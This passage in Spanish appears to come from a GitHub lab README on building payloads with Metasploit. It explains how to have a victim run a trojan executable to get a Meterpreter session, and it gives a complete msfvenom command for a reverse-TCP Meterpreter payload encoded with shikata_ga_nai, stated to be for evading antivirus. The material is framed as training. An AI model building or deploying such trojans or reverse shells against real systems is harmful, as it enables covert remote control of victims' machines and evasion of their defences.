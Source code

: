 <br>

Busca el archivo descargado **payload1.exe** y haz doble clic para ejecutarlo.

Una vez que la víctima ejecuta **payload1.exe**, en la máquina atacante, donde Metasploit está escuchando en el puerto **1111**, debería aparecer una sesión activa en Meterpreter. Puedes ejecutar los siguientes comandos para obtener información sobre la máquina víctima.

```
meterpreter > sysinfo 
meterpreter > getuid
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/sysinfo_getuid.png" alt="sysinfo_getuid" style="border-radius: 10px;">
</p>

<br>

### Payload con Encoder
En este caso, vamos a crear un troyano con un **payload compuesto (Meterpreter + Reverse TCP)** utilizando **MSFVenom**, pero esta vez vamos a codificar el payload con el encoder **Shikata_ga_nai**. Este encoder se utiliza para hacer que el payload sea más difícil de detectar por los sistemas de seguridad, como antivirus.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.4 LPORT=2222 -e x86/shikata_ga_nai -f exe -o payload2.exe
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/Payload-Creation/media/img/creacion_payload2.png" alt="creacion_payload2" style="border-radius: 10px;">
</p>

<br>

**Explicación del nuevo parámetro:**
- **-e x86/shikata_ga_nai:**	Utiliza el encoder Shikata_ga_nai, un encoder polimórfico que ayuda a evadir la detección de antivirus.
